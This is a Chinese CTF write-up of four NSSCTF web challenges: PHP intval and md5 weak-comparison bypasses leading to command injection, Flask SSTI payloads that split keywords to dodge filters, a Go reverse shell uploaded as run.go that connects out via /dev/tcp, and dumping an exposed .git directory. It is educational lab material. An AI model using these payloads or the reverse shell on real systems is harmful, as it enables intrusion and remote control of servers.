NSSCTF WP 12
===

## [WEB] [WUSTCTF 2020] 朴实无华

### 题解

开门没什么信息, 扫目录:



内容:

```
User-agent: *
Disallow: /fAke_f1agggg.php
```

跟进, 没有有价值的信息, 抓包发现信息藏 Header 了: 



```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

这是一道 php 特性的题, 先看第一处:

#### intval 绕过

`intval()` 的含义为取变量的整数值, 其逻辑为**左往右解析字符串里的数字, 直到遇到非数字字符为止**;

```php
intval(true) === 1
intval([123]) === 1 # 非空数组
intval(1e1) === 1 # 注意, 不解析科学计数法
```

这是一个可利用的特性, **在 php 中, `+` 和 `intval` 对字符串的解析规则不同**;

例如 `intval($num) < 2020 && intval($num + 1) > 2021` 这个条件, 只需令 `$num = 2019e1` 即可;

#### md5 弱比较

`0e215962017` 这个字符串md5后于自身弱比较相等;

#### RCE

最后一处是个明显的 RCE, 先输 `ls`:



有两处过滤:

1. `cat` 被过滤, 换 `tail`, `tac` 等都可以, 不列举;
2. 空格被过滤, 换 `${IFS}` 即可;

payload:

```http
GET /fl4g.php?num=2019e1&md5=0e215962017&get_flag=tac${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```



## [WEB] [NCTF 2018] Flask PLUS

### 题解

fuzz 以下之后发现注入点在 URL `/` 之后的位置:



说明此处是 SSTI 注入;

进一步尝试后发现对部分关键词, 如 `class` 存在过滤; 

贴两个反复尝试后可用的 payload:

```python
{{lipsum['__glo''bals__']['o''s']['po''pen']("whoami").read()}}

```

> 当然也可以不从 `lipsum` 作为起点进行注入。

```python
{{''['__cl''ass__']['__ba''se__']['__su''bc''las''ses__']()[127]['__in''it__']['__glo''bals__']['__buil''tins__']['__impo''rt__']('o''s')['po''pen']('ls').read()}}
```

总之可以用的 payload 还是比较多的;

接下来调整 payload 即可; 空格不能用 `+`, 需要使用 `%20` 或者 `%09` (Tab):





得到 flag;

## [WEB] [NSSRound#8 Basic]Upload_gogoggo

### 题解

打开直接是上传界面, 直接能传 shell:



根据这个回显可以判断出网页使用了 GO;

那么使用一个 Go 版本的 反弹 shell:

```go
package main


import (
"fmt"
"log"
"os/exec"
)

func main() {
	cmd := exec.Command("bash", "-c","bash -i >& /dev/tcp/ip/port 0>&1")
	out, err := cmd.CombinedOutput()
	if err != nil {
        fmt.Printf("combined out:\n%s\n", string(out))
		log.Fatalf("cmd.Run() failed with %s\n", err)
	}
	fmt.Printf("combined out:\n%s\n", string(out))
}
```

这一题需要注意的坑是, go 运行的指令是 `go run <file>`, 这个 `run` 是不可以省略的, 否则会报错; 而从后台的报错来看, 服务器执行脚本设置的是 `go <filename>`, 那么必须把上传的文件重命名为 `run.go` 才可以正确执行;

上传后收到反弹 shell:





根目录下这个可疑文件得到一串字母; 另一串在 `/home` 下:



这题刻意藏 flag 了, 合起来 b64 解码得到 flag:



## [WEB] [CISCN 2023 西南] dataapi

### 题解

打开发现有 蓝天采集器的登录, 那么思路: 1. 扫目录, 2. 搜索对应的版本漏洞;

首先扫盘: 扫出 `/.git` 目录:



用 `dumpall` 尝试利用:

> 贴上 kali 里的完整使用, 最好不在 windows 上使用:

```bash
sudo apt install pipx
pipx ensurepath
pipx install dumpall
dumpall -u http://node4.anna.nssctf.cn:22492/.git
```



根据扫出来的文件, 在网站上挨个访问, 找到 `phpinfo.php` 中的 flag:



